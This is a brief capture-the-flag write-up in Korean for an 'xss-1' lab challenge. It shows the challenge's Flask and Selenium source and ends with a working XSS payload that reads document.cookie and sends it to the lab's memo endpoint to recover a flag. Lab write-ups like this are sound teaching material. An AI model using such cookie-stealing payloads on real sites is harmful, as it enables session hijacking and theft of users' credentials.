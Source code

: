 # xss-1

```python
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

flag는 cookie안에 존재하는데, 내 ip의 쿠키가 아닌 127.0.0.1:8000의 쿠키에 존재한다.

또한 입력안에 <script></script>를 넣어서 자바스크립트를 실행할 수 있는데 127.0.0.1로 이동해야 cookie를 얻기 때문에 window.location.href = "http://127.0.0.1:8000/"를 사용하면 된다.

```python
memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)
```
memo를 보면 memo의 args를 받아와 memo.html에 추가한다. 여기에서 cookie를 축하면되므로 

`<script>location.href = "http://127.0.0.1:8000/memo?memo=hello"+document.cookie</script>`를 사용하면 flag를 얻을 수 있다.
